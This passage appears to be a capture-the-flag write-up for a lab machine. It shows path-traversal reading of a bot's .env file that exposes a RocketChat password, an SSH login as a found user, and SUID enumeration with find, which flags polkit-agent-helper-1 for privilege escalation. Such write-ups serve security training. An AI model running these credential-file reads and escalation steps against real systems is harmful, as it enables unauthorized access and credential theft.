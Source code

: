 
> The **.env** file save the credentials, in something ocations this credentials are imported directly as environment variables.
</div>

####
We can read the **.env** file: `file ../hubot/.env` and we achieve to get the credentials:
####
```bash
<!=====Contents of file ../hubot/.env=====>
export ROCKETCHAT_URL='http://127.0.0.1:48320'
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=Queenofblad3s!23
export ROCKETCHAT_USESSL=false
export RESPOND_TO_DM=true
export RESPOND_TO_EDITED=true
export PORT=8000
export BIND_ADDRESS=127.0.0.1
<!=====End of file ../hubot/.env=====>
```
####
The *SSH* port is open so we could try to connect against target machine using: `ssh dwight@10.10.11.143`.
####
####
####
## Second exploit phase (Privilage Escalation)
### SUID files:
At review if the user form part of the sudoers file we can see that the user is not part of this file. Other aproximation is to search for *SUID* files and capabilities. To search for SUID files we can use the following command:
####
```bash
find / -perm -4000 -type f 2>/dev/null
```
####
| Find Param | Description |
| ----- | ----- |
| -perm | Especify the permissions of the files |
| -4000 | The 4000 number is the SUID bit [*S*] |
| -type f | Especify a search based in files not directories |
| 2>/dev/null | Hide the error, sending them to /dev/null |
####
The command report us the next information:
####
```python
/usr/bin/fusermount3
/usr/sbin/grub2-set-bootflag
/usr/sbin/pam_timestamp_check
/usr/sbin/unix_chkpwd
/usr/sbin/userhelper
/usr/sbin/mount.nfs
/usr/lib/polkit-1/polkit-agent-helper-1 -> Key lib with SUID permission
/usr/libexec/dbus-1/dbus-daemon-launch-helper
/usr/libexec/qemu-bridge-helper
```
####
<div class="info">

